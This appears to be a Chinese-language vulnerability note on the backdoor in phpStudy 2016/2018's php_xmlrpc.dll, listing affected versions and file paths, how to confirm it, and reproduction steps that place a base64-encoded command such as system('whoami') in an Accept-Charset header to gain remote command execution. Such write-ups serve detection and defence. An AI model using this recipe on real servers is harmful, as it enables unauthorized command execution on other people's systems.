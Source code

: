 # phpstudy后门

- **phpstudy后门影响版本**

```
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45
```
- **后门位置**

后门代码存在于\ext\php_xmlrpc.dll模块中
- phpStudy2016路径
```
php\php-5.2.17\ext\php_xmlrpc.dll
php\php-5.4.45\ext\php_xmlrpc.dll
```
- [phpStudy2018](http://www.pc6.com/softview/SoftView_48660.html)
```
\php\php-5.2.17\ext\php_xmlrpc.dll
\php\php-5.4.45\ext\php_xmlrpc.dll
```
# 漏洞证明：
使用notepod打开上述后门模块地址 打开此文件查找@eval，文件存在@eval(%s(‘%s’))证明漏洞存在

--------------------

#漏洞复现

- 抓包
![抓包](./phpstudy1.png)

- 修改请求包内容：

添加请求头：
```sh
Accept-Charset:你需要执行的命令（base64加密）
```

另外：
```sh
Accept-Encoding: gzip, deflate//删除deflate前的空格
```

```sh
system('whoami');
base64编码为：c3lzdGVtKCd3aG9hbWknKTs=
```
![执行命令](./phpstudy2.png)

成功执行system函数（命令执行函数）
后续不再赘述。

------------------------
